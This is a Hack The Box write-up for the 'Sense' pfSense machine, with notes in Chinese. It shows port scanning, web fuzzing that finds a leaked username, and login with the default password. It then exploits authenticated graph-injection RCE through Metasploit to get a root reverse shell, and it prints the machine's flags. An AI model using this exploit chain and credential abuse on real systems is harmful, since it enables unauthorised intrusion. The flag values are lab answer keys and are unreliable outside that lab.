

###### tags: `Hack the box` `HTB` `Easy` `OpenBSD`

# Sense
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.169.15 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.169.15:80
Open 10.129.169.15:443

PORT    STATE SERVICE  REASON  VERSION
80/tcp  open  http     syn-ack lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.169.15/
|_http-server-header: lighttpd/1.4.35
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open  ssl/http syn-ack lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 082559A7867CF27ACAB7E9867A8B320F
|_http-title: Login
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US/localityName=Somecity/organizationalUnitName=Organizational Unit Name (eg, section)/emailAddress=Email Address
| Issuer: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US/localityName=Somecity/organizationalUnitName=Organizational Unit Name (eg, section)/emailAddress=Email Address
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-10-14T19:21:35
| Not valid after:  2023-04-06T19:21:35
| MD5:   65f8:b00f:57d2:3468:2c52:0f44:8110:c622
| SHA-1: 4f7c:9a75:cb7f:70d3:8087:08cb:8c27:20dc:05f1:bb02
```

buster掃到`system-users.txt`
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u https://10.129.169.15/FUZZ.txt -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

changelog               [Status: 200, Size: 271, Words: 35, Lines: 10, Duration: 283ms]
system-users            [Status: 200, Size: 106, Words: 9, Lines: 7, Duration: 280ms]
```

前往`https://10.129.169.15/system-users.txt`
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

`pfsense`的`default password`是`pfsense`



所以用`rohit/pfsense`可以登入，之後可以看到版本`2.1.3-RELEASE`
好像只有meta的payloadQQ只好用
```
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole

msf6 > search pfsense

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/unix/http/pfsense_clickjacking          2017-11-21       normal     No     Clickjacking Vulnerability In CSRF Error Page pfSense                                                                                                                                          
   1  exploit/unix/http/pfsense_diag_routes_webshell  2022-02-23       excellent  Yes    pfSense Diag Routes Web Shell Upload
   2    \_ target: Unix Command                       .                .          .      .
   3    \_ target: BSD Dropper                        .                .          .      .
   4  exploit/unix/http/pfsense_config_data_exec      2023-03-18       excellent  Yes    pfSense Restore RRD Data Command Injection
   5  exploit/unix/http/pfsense_graph_injection_exec  2016-04-18       excellent  No     pfSense authenticated graph status RCE
   6  exploit/unix/http/pfsense_group_member_exec     2017-11-06       excellent  Yes    pfSense authenticated group member RCE
   7  exploit/unix/http/pfsense_pfblockerng_webshell  2022-09-05       great      Yes    pfSense plugin pfBlockerNG unauthenticated RCE as root
   8    \_ target: Unix Command                       .                .          .      .
   9    \_ target: BSD Dropper                        .                .          .      .
   
msf6 > use 5
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set payload php/reverse_php
payload => php/reverse_php
msf6 exploit(unix/http/pfsense_graph_injection_exec) > show options
Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                        html
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.
```

設定好run，得到shell為root shell，在`/home/rohit`可得user.txt，在/root可得root.txt
```
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set RHOSTS 10.129.169.15
RHOSTS => 10.129.169.15
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set LHOST 10.10.14.55
LHOST => 10.10.14.55
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set USERNAME rohit
USERNAME => rohit
msf6 exploit(unix/http/pfsense_graph_injection_exec) > run

whoami
root

cd /home
cd rohit
cat user.txt
8721327cc232073b40d27d9c17e7348b

cd /root
cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
```